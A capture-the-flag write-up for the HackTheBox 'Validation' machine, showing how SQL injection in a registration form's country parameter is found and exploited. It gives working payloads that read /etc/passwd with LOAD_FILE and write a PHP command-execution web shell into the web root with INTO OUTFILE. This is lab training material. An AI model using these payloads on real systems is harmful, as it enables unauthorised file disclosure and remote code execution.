


# Validation - HTB Machine

[http://10.10.11.116/](http://10.10.11.116/)


We can enter any username and select the country to join the competition. Looking in Burp we can play with the parameters.

The web app logic is as follows:

1. User enter username and select country
2. A session cookie is generated (MD5) and user is redirected to `/account.php`
3. In `/account.php` the web app takes the user country input to display a list of players

# Finding the SQL Injection

Adding an extra `'` in the `country` value generates an error when `/account.php` is loaded.

```bash
username=caueb&country=Brazil'
```



# Exploiting the SQL Injection

Dumping the `/etc/passwd` file:

```bash
username=caueb&country=Brazil' UNION SELECT LOAD_FILE('/etc/passwd') -- -
```

Uploading a PHP simple RCE (shell.php):

```bash
username=caueb&country=Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']) ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

